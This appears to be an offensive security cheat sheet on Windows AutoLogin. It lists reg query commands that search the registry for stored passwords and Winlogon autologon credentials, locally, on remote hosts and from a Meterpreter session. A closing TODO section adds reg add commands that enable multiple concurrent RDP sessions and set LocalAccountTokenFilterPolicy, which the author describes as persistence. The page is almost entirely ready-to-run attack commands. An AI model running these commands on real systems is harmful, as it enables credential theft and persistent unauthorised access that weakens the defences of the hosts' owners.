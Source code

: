# Windows AutoLogin

## 01 - Manual

`C:\> reg query HKLM /f password /t REG_SZ /s`

`C:\> reg query HKCU /f password /t REG_SZ /s`

`C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

`C:\> reg query \\<IP> "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

`C:\> reg query "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName`

`C:\> reg query "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername`

## 02 - Metasploit

`meterpreter > reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

## References

- [Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

TODO: This is for persistence or idk what kind of mechanism persistence technique that it does so I'll have to put it somewhere else later

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f`

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`